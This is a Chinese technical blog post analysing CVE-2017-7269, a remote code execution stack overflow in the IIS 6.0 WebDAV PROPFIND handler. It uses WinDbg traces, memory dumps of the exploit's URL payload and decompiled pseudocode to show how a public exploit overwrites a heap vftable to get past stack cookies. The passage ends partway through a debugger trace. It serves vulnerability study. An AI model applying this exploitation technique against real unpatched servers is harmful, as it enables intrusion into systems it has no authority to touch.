




作者：k0shl 转载请注明出处 作者博客：http://whereisk0shl.top
CVE-2017-7269是IIS 6.0中存在的一个栈溢出漏洞，在IIS6.0处理PROPFIND指令的时候，由于对url的长度没有进行有效的长度控制和检查，导致执行memcpy对虚拟路径进行构造的时候，引发栈溢出，该漏洞可以导致远程代码执行。
目前在github上有一个在windows server 2003 r2上稳定利用的exploit，这个exp目前执行的功能是弹计算器，使用的shellcode方法是alpha shellcode，这是由于url在内存中以宽字节形式存放，以及其中包含的一些badchar，导致无法直接使用shellcode执行代码，而需要先以alpha shellcode的方法，以ascii码形式以宽字节写入内存，然后再通过一小段解密之后执行代码。
github地址：https://github.com/edwardz246003/IIS_exploit
这个漏洞其实原理非常简单，但是其利用方法却非常有趣，我在入门的时候调试过很多stack overflow及其exp，但多数都是通过覆盖ret，覆盖seh等方法完成的攻击，直到我见到了这个exploit，感觉非常艺术。但这个漏洞也存在其局限性，比如对于aslr来说似乎没有利用面，因此在高版本windows server中利用似乎非常困难，windows server 2003 r2没有aslr保护。
在这篇文章中，我将首先简单介绍一下这个漏洞的利用情况；接着，我将和大家一起分析一下这个漏洞的形成原因；然后我将给大家详细介绍这个漏洞的利用，最后我将简要分析一下这个漏洞的rop及shellcode。
我是一只菜鸟，如有不当之处，还望大家多多指正，感谢阅读！
漏洞环境的搭建非常简单，我的环境是windows server 2003 r2 32位英文企业版，安装之后需要进入系统配置一下iis6.0，首先在登陆windows之后，选择配置服务器，安装iis6.0服务，之后进入iis6.0管理器，在管理器中，有一个windows扩展，在扩展中有一个webdav选项，默认是进入用状态，在左侧选择allow，开启webdav，之后再iis管理器中默认网页中创建一个虚拟目录（其实这一步无所谓），随后选择run->services.msc->WebClient服务，将其开启，这样完成了我的配置。
漏洞触发非常简单，直接在本地执行python exp.py即可，这里为了观察过程，我修改了exp，将其改成远程，我们通过wireshark抓包，可以看到和目标机的交互行为。

可以看到，攻击主机向目标机发送了一个PROPFIND数据包，这个是负责webdav处理的一个指令，其中包含了我们的攻击数据，一个<>包含了两个超长的httpurl请求，其中在两个http url中间还有一个lock token的指令内容。
随后我们可以看到，在靶机执行了calc，其进程创建在w2wp进程下，用户组是NETWORK SERVICE。

我在最开始的时候以为这个calc是由于SW_HIDE的参数设置导致在后台运行，后来发现其实是由于webdav服务进程本身就是无窗口的，导致calc即使定义了SW_SHOWNORMAL，也只是在后台启动了。
事实上，这个漏洞及时没有后面的<>中的http url，单靠一个IF:<>也能够触发，而之所以加入了第二个<>以及lock token，是因为作者想利用第一次和第二次http请求来完成一次精妙的利用，最后在
我尝试去掉第二次<>以及

这个漏洞的成因是在WebDav服务动态链接库的httpext.dll的ScStorageFromUrl函数中，这里为了方便，我们直接来跟踪分析该函数，在下一小节内容，我将和大家来看看整个精妙利用的过程。我将先动态分析整个过程，然后贴出这个存在漏洞函数的伪代码。
在ScStorageFromUrl函数中，首先会调用ScStripAndCheckHttpPrefix函数，这个函数主要是获取头部信息进行检查以及对host name进行检查。
0:009> p//调用CchUrlPrefixW获取url头部信息
eax=67113bc8 ebx=00fffbe8 ecx=00605740 edx=00fff4f8 esi=0060c648 edi=00605740
eip=671335f3 esp=00fff4b4 ebp=00fff4d0 iopl=0 nv up ei pl zr na pe nc
cs=001b ss=0023 ds=0023 es=0023 fs=003b gs=0000 efl=00000246
httpext!ScStripAndCheckHttpPrefix+0x1e:
671335f3 ff5024 call dword ptr [eax+24h] ds:0023:67113bec={httpext!CEcbBaseImpl<IEcb>::CchUrlPrefixW (6712c72a)}
0:009> p
eax=00000007 ebx=00fffbe8 ecx=00fff4cc edx=00fff4f8 esi=0060c648 edi=00605740
eip=671335f6 esp=00fff4b8 ebp=00fff4d0 iopl=0 nv up ei pl nz na po nc
cs=001b ss=0023 ds=0023 es=0023 fs=003b gs=0000 efl=00000202
httpext!ScStripAndCheckHttpPrefix+0x21:
671335f6 8bd8 mov ebx,eax
0:009> dc esi l6//esi存放头部信息，以及server name，这个localhost会在后面获取到。
0060c648 00740068 00700074 002f003a 006c002f h.t.t.p.:././.l.
0060c658 0063006f 006c0061 o.c.a.l.
在check完http头部和hostname之后，会调用wlen函数获取当前http url长度。
0:009> p
eax=0060e7d0 ebx=0060b508 ecx=006058a8 edx=0060e7d0 esi=00605740 edi=00000000
eip=67126ce8 esp=00fff330 ebp=00fff798 iopl=0 nv up ei pl zr na pe nc
cs=001b ss=0023 ds=0023 es=0023 fs=003b gs=0000 efl=00000246
httpext!ScStoragePathFromUrl+0x6d:
67126ce8 50 push eax
0:009> p
eax=0060e7d0 ebx=0060b508 ecx=006058a8 edx=0060e7d0 esi=00605740 edi=00000000
eip=67126ce9 esp=00fff32c ebp=00fff798 iopl=0 nv up ei pl zr na pe nc
cs=001b ss=0023 ds=0023 es=0023 fs=003b gs=0000 efl=00000246
httpext!ScStoragePathFromUrl+0x6e:
67126ce9 ff1550121167 call dword ptr [httpext!_imp__wcslen (67111250)] ds:0023:67111250={msvcrt!wcslen (77bd8ef2)}
0:009> r eax
eax=0060e7d0
0:009> dc eax
0060e7d0 0062002f 00620062 00620062 00620062 /.b.b.b.b.b.b.b.
0060e7e0 61757948 6f674f43 48456b6f 67753646 HyuaCOgookEHF6ug
0060e7f0 38714433 5a625765 56615435 6a536952 3Dq8eWbZ5TaVRiSj
0060e800 384e5157 63555948 43644971 34686472 WQN8HYUcqIdCrdh4
0060e810 71794758 6b55336b 504f6d48 34717a46 XGyqk3UkHmOPFzq4
0060e820 74436f54 6f6f5956 34577341 7a726168 ToCtVYooAsW4harz
0060e830 4d493745 5448574e 367a4c38 62663572 E7IMNWHT8Lz6r5fb
0060e840 486d6e43 61773548 61744d5a 43654133 CnmHH5waZMta3AeC
0:009> p
eax=000002fd ebx=0060b508 ecx=00600000 edx=0060e7d0 esi=00605740 edi=00000000
eip=67126cef esp=00fff32c ebp=00fff798 iopl=0 nv up ei pl nz na po nc
cs=001b ss=0023 ds=0023 es=0023 fs=003b gs=0000 efl=00000202
httpext!ScStoragePathFromUrl+0x74:
67126cef 59 pop ecx
0:009> r eax
eax=000002fd
在利用的关键一次，我们获取的是poc中http://localhost/bbbbb的字符串，这个字符串长度很长，可以看到eax寄存器存放的是url长度，长度是0x2fd，随后会进入一系列的判断，主要是检查url中一些特殊字符，比如0x2f。
0:009> g//eax存放的是指向url的指针，这里会获取指针的第一个字符，然后和“／”作比较
Breakpoint 1 hit
eax=0060e7d0 ebx=0060b508 ecx=006058a8 edx=0060e7d0 esi=00605740 edi=00000000
eip=67126cd7 esp=00fff334 ebp=00fff798 iopl=0 nv up ei pl zr na pe nc
cs=001b ss=0023 ds=0023 es=0023 fs=003b gs=0000 efl=00000246
httpext!ScStoragePathFromUrl+0x5c:
67126cd7 6683382f cmp word ptr [eax],2Fh ds:0023:0060e7d0=002f
0:009> dc eax
0060e7d0 0062002f 00620062 00620062 00620062 /.b.b.b.b.b.b.b.
0060e7e0 61757948 6f674f43 48456b6f 67753646 HyuaCOgookEHF6ug
经过一系列的检查之后，会进入一系列的memcpy函数，主要就是用来构造虚拟文件路径，这个地方拷贝的长度没有进行控制，而拷贝的目标地址，是在外层函数调用stackbuff申请的地址，这个地址会保存在栈里。在ScStorageFromUrl函数中用到，也就是在memcpy函数中用到，作为目的拷贝的地址。
ScStorageFromUrl函数中实际上在整个漏洞触发过程中会调用很多次，我们跟踪的这一次，是在漏洞利用中的一个关键环节之一。首先我们来看一下第一次有效的memcpy
0:009> p
eax=00000024 ebx=000002fd ecx=00000009 edx=00000024 esi=00000012 edi=680312c0
eip=67126fa9 esp=00fff330 ebp=00fff798 iopl=0 nv up ei pl nz na pe nc
cs=001b ss=0023 ds=0023 es=0023 fs=003b gs=0000 efl=00000206
httpext!ScStoragePathFromUrl+0x32e:
67126fa9 8db5c4fbffff lea esi,[ebp-43Ch]
0:009> p
eax=00000024 ebx=000002fd ecx=00000009 edx=00000024 esi=00fff35c edi=680312c0
eip=67126faf esp=00fff330 ebp=00fff798 iopl=0 nv up ei pl nz na pe nc
cs=001b ss=0023 ds=0023 es=0023 fs=003b gs=0000 efl=00000206
httpext!ScStoragePathFromUrl+0x334:
67126faf f3a5 rep movs dword ptr es:[edi],dword ptr [esi]
0:009> r esi
esi=00fff35c
0:009> dc esi
00fff35c 003a0063 0069005c 0065006e 00700074 c.:.\.i.n.e.t.p.
00fff36c 00620075 0077005c 00770077 006f0072 u.b.\.w.w.w.r.o.
00fff37c 0074006f 0062005c 00620062 00620062 o.t.\.b.b.b.b.b.
00fff38c 00620062 61757948 6f674f43 48456b6f b.b.HyuaCOgookEH
这次memcpy拷贝过程中，会将esi寄存器中的值拷贝到edi寄存器中，可以看到edi寄存器的值是0x680312c0，这个值很有意思，在之前我提到过，这个buffer的值会在外层函数中申请，并存放在栈中，因此正常情况应该是向一个栈地址拷贝，而这次为什么会向一个堆地址拷贝呢？
这是个悬念，也是我觉得这个利用巧妙的地方，下面我们先进入后面的分析，在memcpy中，也就是rep movs中ecx的值决定了memcpy的长度，第一次拷贝的长度是0x9。
接下来，回进入第二次拷贝，这次拷贝的长度就比较长了。
0:009> p//长度相减，0x2fd－0x0
eax=00000024 ebx=000002fd ecx=00000000 edx=00000000 esi=0060e7d0 edi=680312e4
eip=67126fc4 esp=00fff330 ebp=00fff798 iopl=0 nv up ei pl zr na pe nc
cs=001b ss=0023 ds=0023 es=0023 fs=003b gs=0000 efl=00000246
httpext!ScStoragePathFromUrl+0x349:
67126fc4 2bda sub ebx,edx
0:009> r ebx
ebx=000002fd
0:009> r edx
edx=00000000
0:009> p
eax=00000024 ebx=000002fd ecx=00000000 edx=00000000 esi=0060e7d0 edi=680312e4
eip=67126fc6 esp=00fff330 ebp=00fff798 iopl=0 nv up ei pl nz na po nc
cs=001b ss=0023 ds=0023 es=0023 fs=003b gs=0000 efl=00000202
httpext!ScStoragePathFromUrl+0x34b:
67126fc6 8d3456 lea esi,[esi+edx*2]
0:009> p
eax=00000024 ebx=000002fd ecx=00000000 edx=00000000 esi=0060e7d0 edi=680312e4
eip=67126fc9 esp=00fff330 ebp=00fff798 iopl=0 nv up ei pl nz na po nc
cs=001b ss=0023 ds=0023 es=0023 fs=003b gs=0000 efl=00000202
httpext!ScStoragePathFromUrl+0x34e:
67126fc9 8b95b0fbffff mov edx,dword ptr [ebp-450h] ss:0023:00fff348=680312c0
0:009> p
eax=00000024 ebx=000002fd ecx=00000000 edx=680312c0 esi=0060e7d0 edi=680312e4
eip=67126fcf esp=00fff330 ebp=00fff798 iopl=0 nv up ei pl nz na po nc
cs=001b ss=0023 ds=0023 es=0023 fs=003b gs=0000 efl=00000202
httpext!ScStoragePathFromUrl+0x354:
67126fcf 8d3c10 lea edi,[eax+edx]
0:009> p/／ecx的值为dword值
eax=00000024 ebx=000002fd ecx=00000000 edx=680312c0 esi=0060e7d0 edi=680312e4
eip=67126fd2 esp=00fff330 ebp=00fff798 iopl=0 nv up ei pl nz na po nc
cs=001b ss=0023 ds=0023 es=0023 fs=003b gs=0000 efl=00000202
httpext!ScStoragePathFromUrl+0x357:
67126fd2 8d4c1b02 lea ecx,[ebx+ebx+2]
0:009> p
eax=00000024 ebx=000002fd ecx=000005fc edx=680312c0 esi=0060e7d0 edi=680312e4
eip=67126fd6 esp=00fff330 ebp=00fff798 iopl=0 nv up ei pl nz na po nc
cs=001b ss=0023 ds=0023 es=0023 fs=003b gs=0000 efl=00000202
httpext!ScStoragePathFromUrl+0x35b:
67126fd6 8bc1 mov eax,ecx
0:009> p／／最后拷贝的长度再除以4
eax=000005fc ebx=000002fd ecx=000005fc edx=680312c0 esi=0060e7d0 edi=680312e4
eip=67126fd8 esp=00fff330 ebp=00fff798 iopl=0 nv up ei pl nz na po nc
cs=001b ss=0023 ds=0023 es=0023 fs=003b gs=0000 efl=00000202
httpext!ScStoragePathFromUrl+0x35d:
67126fd8 c1e902 shr ecx,2
0:009> p/／这次拷贝17f的值 key！！！看ecx
eax=000005fc ebx=000002fd ecx=0000017f edx=680312c0 esi=0060e7d0 edi=680312e4
eip=67126fdb esp=00fff330 ebp=00fff798 iopl=0 nv up ei pl nz na po nc
cs=001b ss=0023 ds=0023 es=0023 fs=003b gs=0000 efl=00000202
httpext!ScStoragePathFromUrl+0x360:
67126fdb f3a5 rep movs dword ptr es:[edi],dword ptr [esi]
可以看到，这次拷贝的长度是0x17f，长度非常大，而在整个分析的过程中，并没有对拷贝的长度进行控制，因此，可以拷贝任意超长的字符串，进入这个堆空间。
这个堆空间非常有意思，存放的是一个vftable，这个vftable会在ScStorageFromUrl函数中的某个内层函数调用调用到，还记得之前分析的ScStripAndCheckHttpPrefi函数吗。
0:009> p//正常情况ScStripAndCheckHttpPrefix函数中对vftable的获取
eax=00fff9a4 ebx=00fffbe8 ecx=00605740 edx=00fff4f8 esi=0060c648 edi=00605740
eip=671335e8 esp=00fff4b8 ebp=00fff4d0 iopl=0 nv up ei pl zr na pe nc
cs=001b ss=0023 ds=0023 es=0023 fs=003b gs=0000 efl=00000246
httpext!ScStripAndCheckHttpPrefix+0x13:
671335e8 8b07 mov eax,dword ptr [edi] ds:0023:00605740={httpext!CEcb::`vftable' (67113bc8)}
获取完虚表之后，会获取到对应的虚函数，在ScStripAndCheckHttpPrefix函数中call调用到。但是由于之前的memcpy覆盖，导致这个vftable被覆盖。
0:009> p
eax=680313c0 ebx=00fffbe8 ecx=680313c0 edx=00fff4f8 esi=0060e7b0 edi=680313c0
eip=671335f0 esp=00fff4b4 ebp=00fff4d0 iopl=0 nv up ei pl zr na pe nc
cs=001b ss=0023 ds=0023 es=0023 fs=003b gs=0000 efl=00000246
httpext!ScStripAndCheckHttpPrefix+0x1b:
671335f0 8955f4 mov dword ptr [ebp-0Ch],edx ss:0023:00fff4c4=00000000
0:009> p//eax是vftable，而call [eax+24]调用虚函数，这里由于之前的覆盖，导致跳转到可控位置
eax=680313c0 ebx=00fffbe8 ecx=680313c0 edx=00fff4f8 esi=0060e7b0 edi=680313c0
eip=671335f3 esp=00fff4b4 ebp=00fff4d0 iopl=0 nv up ei pl zr na pe nc
cs=001b ss=0023 ds=0023 es=0023 fs=003b gs=0000 efl=00000246
httpext!ScStripAndCheckHttpPrefix+0x1e:
671335f3 ff5024 call dword ptr [eax+24h] ds:0023:680313e4=68016082
0:009> dc eax
680313c0 680313c0 68006e4f 68006e4f 766a4247 ...hOn.hOn.hGBjv
680313d0 680313c0 4f744257 52345947 4b424b66 ...hWBtOGY4RfKBK
这个漏洞的原理非常简单，在PROPFIND中，由于对http的长度没有进行检查，导致在memcpy中，可以拷贝超长的字符串，覆盖到栈中的关键位置，下面来看一下伪代码。
__int32 __fastcall ScStoragePathFromUrl(const struct IEcb *a1, wchar_t *a2, unsigned __int16 *a3, unsigned int *a4, struct CVRoot **a5)
{
v35 = a3;
v5 = a1;
Str = a2;
v37 = (int)a1;
v34 = a4;
v33 = a5;
result = ScStripAndCheckHttpPrefix(a1, (const unsigned __int16 **)&Str);//主要用来检查开头信息，比如http头以及host等等
if ( result < 0 )
return result;
if ( *Str != 47 )//判断第一个值是不是/
return -2146107135;
v7 = _wcslen(Str);//获取str长度，也就是畸形url长度
result = IEcbBase::ScReqMapUrlToPathEx(Str, WideCharStr);
v36 = result;
if ( result < 0 )
return result;
v8 = (*(int (__thiscall **)(const struct IEcb *, wchar_t **))(*(_DWORD *)v5 + 52))(v5, &Str1);//httpext!CEcbBaseImpl<IEcb>::CchGetVirtualRootW (6712d665) 获取虚拟路径
if ( v8 == v42 )
{
if ( !v8 || Str[v8 - 1] && !__wcsnicmp(Str1, Str, v8) )
goto LABEL_14;
}
else if ( v8 + 1 == v42 )
{
v9 = Str[v8];
if ( v9 == 47 || !v9 )
{
--v42;
goto LABEL_14;
}
}
v36 = 1378295;
LABEL_14:
if ( v36 == 1378295 && a5 )
{
……
}
v16 = v41;
if ( v41 )
{
v17 = (const unsigned __int16 *)((char *)&v39 + 2 * v41 + 2);
if ( *v17 == 92 )
{
while ( v16 && *v17 == 92 && !FIsDriveTrailingChar(v17, v16) )
{
v41 = --v16;
--v17;
}
}
else if ( !*v17 )
{
v16 = v41-- - 1;
}
}
v18 = v16 - v42 + v7 + 1;
v19 = *v34 < v18;
v37 = v16 - v42 + v7 + 1;
if ( v19 )
{
……
}
else//进入这一处else处理
{
v21 = v35;
v22 = v16;
v23 = 2 * v16;
v24 = (unsigned int)(2 * v16) >> 2;
qmemcpy(v35, WideCharStr, 4 * v24);//拷贝虚拟路径
v26 = &WideCharStr[2 * v24];
v25 = &v21[2 * v24];
LOBYTE(v24) = v23;
v27 = v42;
qmemcpy(v25, v26, v24 & 3);
v28 = v7 - v27;//这里v7是0x2fd，相减赋值给v28，这个值很大，v27为0
v29 = &Str[v27];
v30 = v35;
qmemcpy(&v35[v22], v29, 2 * v28 + 2);//直接拷贝到栈中，没有对长度进行检查，导致溢出
for ( i = &v30[v41]; *i; ++i )
{
if ( *i == 47 )
*i = 92;
}
*v34 = v37;
result = v36;
}
return result;
}
其实通过上面的分析，我们发现这个漏洞的 原理非常简单，但是究竟如何利用呢，我们来看一下关于ScStorageFromUrl函数中，包含了GS check，也就是说，我们在进行常规的覆盖ret方式利用的情况下，将会把cookie也会覆盖，导致利用失败。
.text:67127017 loc_67127017: ; CODE XREF: ScStoragePathFromUrl(IEcb const &,ushort const *,ushort *,uint *,CVRoot * *)+50j
.text:67127017 ; ScStoragePathFromUrl(IEcb const &,ushort const *,ushort *,uint *,CVRoot * *)+67j
.text:67127017 mov ecx, [ebp+var_C]
.text:6712701A pop edi
.text:6712701B mov large fs:0, ecx
.text:67127022 mov ecx, [ebp+var_10]
.text:67127025 pop esi
.text:67127026 call @__security_check_cookie@4 ; __security_check_cookie(x)
.text:6712702B leave
.text:6712702C retn 0Ch
漏洞利用非常精妙，也就是用这种方法，巧妙的绕过了gs的检查，最后达到漏洞利用，稳定的代码执行，首先，WebDav对数据包的处理逻辑是在DAVxxx函数中完成的。比如当前数据包是PROPFIND，那么当前的函数处理逻辑就是DAVpropfind函数。
0:009> kb
ChildEBP RetAddr Args to Child
00fff798 67119469 680312c0 00fff800 00000000 httpext!ScStoragePathFromUrl
00fff7ac 6712544a 0060e7b0 680312c0 00fff800 httpext!CMethUtil::ScStoragePathFromUrl+0x18
00fffc34 6712561e 0060b508 0060584e 00fffc78 httpext!HrCheckIfHeader+0x124
00fffc44 6711f659 0060b508 0060584e 00000001 httpext!HrCheckStateHeaders+0x10
00fffc78 6711f7c5 0060c010 00fffcd4 671404e2 httpext!CPropFindRequest::Execute+0xf0
00fffc90 671296f2 0060c010 00000004 01017af8 httpext!DAVPropFind+0x47
在内层的函数处理逻辑中，有一处关键的函数处理逻辑HrCheckIfHeader，主要负责DAVPropFind函数对头部的check，这个函数处理逻辑中有一处while循环，我已经把这个循环的关键位置的注释写在伪代码中。
__int32 __stdcall HrCheckIfHeader(struct CMethUtil *a1, const unsigned __int16 *a2)
while ( 2 )
{
v6 = IFITER::PszNextToken(&v20, 0);
v7 = v6;
if ( v6 )／／这里获取下一个url值，第一轮会进入这里，第二轮也会，第三轮就进不去了
{
CStackBuffer<unsigned short,260>::CStackBuffer<unsigned short,260>(260);
v9 = (const wchar_t *)(v7 + 2);
LOBYTE(v34) = 2;
v27 = _wcslen(v9);
if ( !CStackBuffer<unsigned short,260>::resize(2 * v27 + 2) )
goto LABEL_35;
v5 = ScCanonicalizePrefixedURL(v9, v32, &v27);
if ( v5 )
goto LABEL_43;
v27 = v29 >> 3;
v5 = CMethUtil::ScStoragePathFromUrl(a1, v32, Str, &v27);
if ( v5 == 1 )
{
if ( !CStackBuffer<unsigned short,260>::resize(v27) )
{
LABEL_35:
LOBYTE(v34) = 1;
CStackBuffer<char,260>::release(&v31);
v5 = -2147024882;
goto LABEL_39;
}
v5 = CMethUtil::ScStoragePathFromUrl(a1, v32, Str, &v27);
}
if ( v5 < 0 )
{
LABEL_43:
LOBYTE(v34) = 1;
CStackBuffer<char,260>::release(&v31);
goto LABEL_39;
}
v10 = _wcslen(Str);
v27 = v10;
v11 = &Str[v10 - 1];
if ( *v11 == 62 )
*v11 = 0;
v8 = Str;
LOBYTE(v34) = 1;
CStackBuffer<char,260>::release(&v31);
}
else
{
if ( !v25 )／／进不去就跳入这里，直接break掉，随后进入locktoken，会调用sc函数
goto LABEL_38;
v8 = (const unsigned __int16 *)v24;
}
v25 = 0;
for ( i = (wchar_t *)IFITER::PszNextToken(&v20, 2); ; i = (wchar_t *)IFITER::PszNextToken(&v20, v19) )
{
v17 = i;
if ( !i )
break;
v12 = *i;
if ( *v17 == 60 )
{
v13 = HrValidTokenExpression((int)a1, v17, (int)v8, 0);
}
else if ( v12 == 91 )
{
if ( !FGetLastModTime(0, v8, (struct _FILETIME *)&v23)
|| !FETagFromFiletime((int)&v23, &String, *((_DWORD *)a1 + 4)) )
{
LABEL_26:
if ( v22 )
goto LABEL_27;
goto LABEL_30;
}
v14 = v17 + 1;
if ( *v14 == 87 )
v14 += 2;
v15 = _wcslen(&String);
v13 = _wcsncmp(&String, v14, v15);
}
else
{
v13 = -2147467259;
}
if ( v13 )
goto LABEL_26;
if ( !v22 )／／如果不等于22，则v26为1 continue，这里v22为0
{
LABEL_27:
v26 = 1;
v19 = 3;
continue;
}
LABEL_30:
v26 = 0;
v19 = 4;
}
v2 = 0;
if ( v26 )／／这里进这里
{
v6 = IFITER::PszNextToken(&v20, 1);／／获得下一个url部分，第一次处理完，由于后面还有url，所以这里v6会有值，而第二次，这里后面没有值了
continue;
}
break;
}
如果看的比较迷糊，可以看我下面的描述，首先这个while函数中，有一个非常有意思的函数PszNextToken，这个函数会连续获取<>中的http url，直到后面没有http url，则跳出循环，这也是这个漏洞利用的关键条件。
首先，第一次会处理IF后面的第一个http url，这个url就是http://localhost/aaaa..，这个处理过程，实际上就完成了第一次溢出，首先stackbuffer会通过CStackBuffer函数获取，获取到之后，这个值会存放在stack中的一个位置。接下来会进行第一次ScStorageFromUrl，这个地方会对第一个<>中的http url处理。长度是0xa7。
0:009> p
eax=00fff910 ebx=0060b508 ecx=00000410 edx=00000000 esi=0060c64a edi=77bd8ef2
eip=671253e2 esp=00fff7bc ebp=00fffc34 iopl=0 nv up ei pl nz na po nc
cs=001b ss=0023 ds=0023 es=0023 fs=003b gs=0000 efl=00000202
httpext!HrCheckIfHeader+0xbc:
671253e2 ffd7 call edi {msvcrt!wcslen (77bd8ef2)}／／第一次处理aaaa部分，长度只有a7
0:009> dc 60c64a
0060c64a 00740068 00700074 002f003a 006c002f h.t.t.p.:././.l.
0060c65a 0063006f 006c0061 006f0068 00740073 o.c.a.l.h.o.s.t.
0060c66a 0061002f 00610061 00610061 00610061 /.a.a.a.a.a.a.a.
0060c67a 78636f68 71337761 47726936 4b777a39 hocxaw3q6irG9zwK
0:009> p
eax=000000a7
